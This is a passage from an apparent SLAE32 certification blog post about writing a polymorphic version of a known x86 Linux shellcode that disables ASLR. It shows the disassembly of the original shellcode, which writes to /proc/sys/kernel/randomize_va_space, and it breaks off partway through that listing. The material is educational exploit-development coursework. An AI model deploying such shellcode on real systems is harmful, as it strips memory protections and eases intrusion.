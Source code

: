 ```yaml
---
title: SLAE32 Assignment 6.2 - Polymorphic ASLR Deactivation
date: 2019-9-19
layout: single
classes: wide
tags:
  - Bind
  - Shell
  - Assembly
  - Code
  - SLAE
  - Linux
  - x86
  - Shellcode
--- 
```

![](/assets/images/SLAE32.png)
```console
This blog post has been created for completing the requirements
 of the SecurityTube Linux Assembly Expert certification:
http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/
	- Now at: https://www.pentesteracademy.com/course?id=3
SLAE/Student ID: PA-10913
```
## Overview
This shellcode is a polymorphic version of Jean Pascal Pereiras `x86 ASLR deactivation - 83 bytes` shellcode.  
+ The final polymorphic version of the shellcode is `85 bytes`.  
+ The original shellcode can be found at: `http://shell-storm.org/shellcode/files/shellcode-813.php`

## Analyzing the Shellcode
To begin to create a polymorphic version of this shellcode I first had to understand it.  
#### Original Shellcode
```console
08048060 <_start>:
 8048060:       31 c0                   xor    %eax,%eax
 8048062:       50                      push   %eax
 8048063:       68 70 61 63 65          push   $0x65636170
 8048068:       68 76 61 5f 73          push   $0x735f6176
 804806d:       68 69 7a 65 5f          push   $0x5f657a69
 8048072:       68 6e 64 6f 6d          push   $0x6d6f646e
 8048077:       68 6c 2f 72 61          push   $0x61722f6c
 804807c:       68 65 72 6e 65          push   $0x656e7265
 8048081:       68 79 73 2f 6b          push   $0x6b2f7379
 8048086:       68 6f 63 2f 73          push   $0x732f636f
 804808b:       68 2f 2f 70 72          push   $0x72702f2f
 8048090:       89 e3                   mov    %esp,%ebx
 8048092:       66 b9 bc 02             mov    $0x2bc,%cx
```